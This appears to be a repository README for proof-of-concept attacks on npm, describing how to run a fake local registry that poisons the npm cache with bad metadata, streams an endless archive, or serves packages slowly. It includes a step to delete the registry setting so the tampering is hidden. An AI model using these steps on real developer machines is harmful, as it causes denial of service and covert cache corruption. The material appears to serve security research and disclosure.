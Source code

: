 # POC of npm cache poison

* start fake registry
```bash
cd server
npm start
```
* set npm to use this registry
```bash
npm config set registry http://localhost:6790
```
* run sandbox install(this command will drop cache to rewrite it with wrong metadata)
```bash
cd sandbox
npm start
```
**NOTE** this project has cyclic dependency(install will never end) drop this process after 20 sec
* hide registry rewrite
```bash
npm config delete registry
```
* you cache has invalid metadata if you will try install modules from sandbox malware meta will cause infinite install

# POC of npm endless data problem

* start fake registry
```bash
cd server
npm run endless
```
* set npm to use this registry
```bash
npm config set registry http://localhost:6790
```
* run sandbox install(this command will drop cache to rewrite it with wrong metadata)
```bash
cd sandbox
npm start
```
This install never ends, because fake registry emits endless archive

# POC of npm slow package retrieval

* start fake registry
```bash
cd server
npm run slow
```
* set npm to use this registry
```bash
npm config set registry http://localhost:6790
```
* run sandbox install(this command will drop cache to rewrite it with wrong metadata)
```bash
cd sandbox
npm start
```
This install will take 3 hours, because fake registry emits package content slowly.
